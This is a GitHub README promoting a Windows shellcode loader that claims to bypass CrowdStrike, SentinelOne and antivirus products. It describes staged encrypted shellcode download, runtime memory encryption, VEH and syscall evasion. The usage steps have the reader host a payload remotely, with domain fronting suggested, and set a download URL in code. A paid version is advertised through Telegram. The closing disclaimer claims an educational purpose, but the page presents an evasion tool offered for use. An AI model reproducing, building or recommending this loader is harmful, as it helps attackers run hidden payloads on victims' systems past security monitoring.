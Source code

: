 # EDR-XDR-AV-Bypass-Shellcode-Loader
- CURRENTLY BYPASSES CROWDSTRIKE & SENTINEL ONE RUNTIME.
- SCROLL DOWN TO FIND DETECTIONS (RUNTIME & STATIC TIME ANALYSIS)
---
- Want paid version? contact me at : https://t.me/codepulze
- <a href="https://t.me/pulzetools"><img src="https://img.shields.io/badge/Join%20my%20Telegram%20group-2CA5E0?style=for-the-badge&logo=telegram&labelColor=db44ad&color=5e2775"></a>
- [Join our Discord server!](https://discord.gg/NRTdwYUtdQ)

---
![image](https://github.com/user-attachments/assets/c9945d69-547c-4c21-923a-20325c886844)

## Overview
This project provides an advanced shellcode loader capable of bypassing major EDRs (Endpoint Detection and Response), XDRs, and AV (Antivirus) systems. The shellcode is executed in a staged manner with techniques such as memory protection manipulation, VEH (Vectored Exception Handling), and system calls to evade detection.

## Features
- **Staged Shellcode Execution**: Downloads and executes shellcode in multiple steps to minimize detection.
- **Custom Memory Protection**: Evading modern AntiVirus memory scanners by encrypting a function during runtime, then decrypting it when the function needs to be executed, then re-encrypting the function once the function has finished executing
- **Vectored Exception Handling (VEH)**: Handles memory access violations and redirects execution flow.
- **Encrypted Shellcode**: Shellcode is encrypted during download and decrypted in-memory before execution.
- Custom ```GetProcessAddress``` & ```GetModuleHandleW```
## Prerequisites
- Windows Operating System (x64)
- Visual Studio or compatible C++ compiler
- Internet connection (for staged shellcode download)

## Usage

### Build
1. Clone the repository:
2. Open the project in Visual Studio or your preferred C++ environment (i use vsc).
3. Compile the project in Release mode for a production-ready executable.

### Execution
1. Host the shellcode binary on a remote server (e.g., Discord, AWS, or any public URL, works best with domain fronting).
2. Update the shellcode URL in the `main` function:
   ```cpp
   std::wstring url = L"https://your-hosted-url/shellcode.bin";
   ```
3. Run the executable:
   ```bash
   hack.exe
   ```

## DETECTIONS (scanner.to / kleenscan)
![image](https://github.com/user-attachments/assets/0afe46a9-9aa7-450c-9ec1-85e898ae4487)
![image](https://github.com/user-attachments/assets/b8d4a182-e35e-46f0-a052-04e488674069)
![image](https://github.com/user-attachments/assets/0a3b4308-014e-4dc3-ae99-6faf52b77fc6)

## Disclaimer
This tool is intended for educational and research purposes only. Misuse of this tool for malicious purposes is strictly prohibited and against the law. The author does not condone or support any illegal activity.
